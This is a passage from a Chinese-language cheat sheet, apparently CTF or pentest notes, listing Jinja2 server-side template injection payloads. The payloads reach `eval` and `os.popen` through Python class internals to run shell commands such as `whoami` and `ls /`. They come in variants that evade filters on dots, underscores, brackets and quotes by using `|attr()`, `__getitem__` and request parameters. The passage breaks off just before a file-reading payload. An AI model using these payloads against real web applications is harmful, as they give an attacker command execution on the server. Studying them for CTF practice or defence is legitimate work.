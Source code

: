 ```
{%print ().__class__.__bases__[0].__subclasses__()[40].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")%}
```

#### 利用 |attr() Bypass

##### 过滤 . &[ ]:

`**|attr()+__getitem()__**`**绕过：**

```javascript
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(77)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls")|attr("read")()}}
#等同于：
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls').read()}}
```

##### 过滤_&.&[ ]&'':

`**|attr()+__getitem__+request**`**绕过：**

\#payload的原型：` {{().__class__.__base__.__subclasses__()[77].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}} `

```javascript
#由于中括号 `[` 被过滤了，我们可以用 `__getitem__()` 来绕过（尽量不要用pop()），类似如下：

{{().__class__.__base__.__subclasses__().__getitem__(77).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')}}
#由于还过滤了下划线 `__`，我们可以用request对象绕过，但是还过滤了中括号 `[]`，所以我们要同时绕过 `__` 和 `[`，就用到了我们的`|attr()`

payload:
{{()|attr(request.args.x1)|attr(request.args.x2)|attr(request.args.x3)()|attr(request.args.x4)(77)|attr(request.args.x5)|attr(request.args.x6)|attr(request.args.x4)(request.args.x7)|attr(request.args.x4)(request.args.x8)(request.args.x9)}}
&x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('ls /').read()
```

##### 过滤args&.&_：

`**|attr()+request(values)**`**绕过：**

```javascript
{{()|attr(request['values']['x1'])|attr(request['values']['x2'])|attr(request['values']['x3'])()|attr(request['values']['x4'])(40)|attr(request['values']['x5'])|attr(request['values']['x6'])|attr(request['values']['x4'])(request['values']['x7'])|attr(request['values']['x4'])(request['values']['x8'])(request['values']['x9'])}}
post:x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('whoami').read()
```

##### 过滤_&.&'：

主要是找到_frozen_importlib_external.FileLoader的get_data()方法，第一个是参数0，第二个为要读取的文件名，payload如下
